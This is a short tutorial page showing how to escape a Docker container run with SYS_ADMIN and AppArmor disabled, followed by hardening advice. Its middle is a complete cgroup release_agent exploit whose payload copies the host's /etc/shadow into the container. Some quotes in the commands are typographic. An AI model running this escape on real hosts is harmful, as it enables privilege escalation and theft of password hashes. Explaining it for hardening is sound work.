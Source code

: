# Escaping from a Docker container

### SYS\_ADMIN capability and AppArmor disabled

{% hint style="info" %}
Note that these aren't default settings
{% endhint %}

```text
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```

Then in the container, we are going to run these commands. 

```text
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n ‘s/.*\perdir=\([^,]*\).*/\1/p’ /etc/mtab`
echo “$host_path/cmd” > /tmp/cgrp/release_agent
echo ‘#!/bin/sh’ > /cmd
echo “cat /etc/shadow > $host_path/shadow” >> /cmd
chmod a+x /cmd
sh -c “echo \$\$ > /tmp/cgrp/x/cgroup.procs”
```

Once you execute the above commands, you can see the host OS’s passwords in /shadow folder

```text
cat /shadow
```

As we can see we were able to break out of the container. Suffice to say, we abused misconfigurations to escape a container.  
This wouldn’t have happened if the non-root user was used, SYS\_ADMIN and AppArmor profile wasn’t disabled.  
In short,

1. Do not use –privileged flag, it disables all the security mechanisms placed by docker.
2. Do not mount root volumes into the containers.
3. Do not mount docker.sock inside the containers.
4. Default docker settings are sane, please do not disable them or add more capabilities.
5. Use SecComp and AppArmor profiles to harden the container.
6. Do not run containers as the root user.

